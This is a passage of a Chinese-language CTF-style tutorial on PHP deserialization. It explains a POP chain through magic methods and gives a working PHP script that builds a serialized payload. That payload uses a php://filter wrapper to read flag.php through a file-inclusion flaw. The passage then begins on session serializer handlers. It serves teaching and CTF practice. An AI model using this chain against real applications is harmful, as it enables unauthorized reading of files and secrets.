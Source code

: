 ```php
} 
```
Modifier类中存在文件包含漏洞，可以用php伪协议读取，需要构造一个pop链修改$value
Show类中的 __wakeup()调用preg_match函数将source进行作字符串处理时触发了 __toString()，返回$this->str->source，当str实例为Test类时，因为Test类中不包含source属性从而调用 __get，返回一个函数，如果Modifier实例化成p，刚好可以调用 __invoke，最终修改value，调用文件包含函数，再通过一次 __toString把flag读取出来

pop链: Show类 -> __wakeup -> __toString -> Test类 -> __get -> Modifier类 -> __invoke
```php
<?php
class Modifier {
    protected  $var='php://filter/read=convert.base64-encode/resource=flag.php';
}

class Show{
    public $source;
    public $str;
    public function __construct($file){
    $this->source = $file;
    }
}

class Test{
    public $p;    
}

$a=new Show('a');
$a->str=new Test();
$a->str->p=new Modifier();
$b=new Show($a);
echo serialize($b);
?>
```

<br/>

## session反序列化漏洞
PHP中的session是以文件的形式保存到硬盘中，其存储的文件名格式为 sess_sessionid，其内容为session序列化之后的结果

先了解一下session在php中的一些配置：
- session.save_path 设置session的存储路径
- session.save_handler 设定用户自定义存储函数
- session.auto_start 指定会话模块是否在请求开始时启动一个会话，默认为0不启动
- session.serialize_handler 定义用来序列化/反序列化的处理器名字。默认使用php

<br/>

而在php中有三种序列化的处理机制：

| 处理器 			| 对应的存储格式 |
| -----------------------------|----------------|
| php_binary 			| 键名的长度对应的ASCII字符+键名+经过的serialize（）函数序列化处理的值 |
| php 	        		| 键名+竖线+经过的serialize（）函数序列处理的值 |
| php_serialize(php>5.5.4) 	| 经过serialize()函数处理过的值，会将键名和值当作一个数组序列化 |
